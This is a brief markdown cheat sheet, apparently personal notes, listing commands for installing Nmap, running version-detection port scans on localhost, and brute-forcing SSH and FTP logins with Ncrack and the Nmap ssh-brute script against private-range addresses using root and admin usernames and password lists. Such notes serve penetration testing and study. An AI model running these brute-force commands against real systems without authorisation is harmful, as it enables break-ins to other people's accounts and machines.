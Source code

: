 ## Install Nmap  
``$ ./configure && make``

``# make install``

## Version intensity scans

``nmap -p- 127.0.0.1 -sV --version-intensity 9``

``nmap -p- 127.0.0.1 -sV --version-all``

## Brute force SSH with Ncrack and some fine tunning
  
``$ ncrack ssh://192.168.1.1:45120,CL=1,at=6,cd=15s,to=6h -v -f --user root -P ./pass.txt --save ~/ssh_session``

``$ ncrack ftp://192.168.*.*,cr=5 -T5 -v -f --user admin ``

## Brute force SSH with NSE and some fine tunning

`` $ nmap -p22 --script ssh-brute --script-args userdb=<file>,passdb=<file> <target>``


